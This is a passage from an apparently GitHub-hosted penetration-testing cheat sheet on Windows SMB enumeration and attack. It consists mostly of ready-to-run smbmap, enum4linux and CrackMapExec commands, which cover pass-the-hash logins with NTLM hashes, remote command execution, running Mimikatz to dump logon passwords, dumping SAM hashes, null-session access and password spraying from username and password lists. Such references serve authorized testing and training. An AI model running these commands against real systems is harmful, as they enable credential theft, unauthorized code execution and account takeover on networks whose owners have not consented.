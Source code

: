 ```bash
smbmap -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -H 172.16.0.20

# Command Execution
smbmap -u 'apadmin' -p 'asdf1234!' -d ACME -H 10.1.3.30 -x 'net group "Domain Admins" /domain'
```

* Github: https://github.com/ShawnDEvans/smbmap


## enum4linux

The grandma of Windows enum scripts. It will riddle you with errors, but sometimes it still does a good job, especially when you are dealing with old machines/Workgroups/Domains.

It is based on the tools `smbclient`, `rpclient`, `net` and `nmblookup`. Useful for bruteforcing user account names via RID cycling, which is often possible on old machines.

```bash
enum4linux -a 10.10.10.178
```

## CrackMapExec

Network SMB scan:

```bash
crackmapexec smb 192.168.1.1/24
crackmapexec smb 192.168.1.1/24 -u CoolAdmin -p ARealGoodPassword 
crackmapexec smb 192.168.1.1/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
```

Mimikatz (sekurlsa::logonpasswords):
```bash
crackmapexec smb 192.168.1.1/24 -u Administrator -p Password1 -M mimikatz
```

Like SMBMap it can do code execution (admin required):
```bash
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
```

Dump SAM hashes (admin required):
```bash
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam
```

Null sessions (empty user/pass):
```bash
crackmapexec smb <target(s)> -u '' -p ''
```

User/Pass spraying:
```bash
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes
```
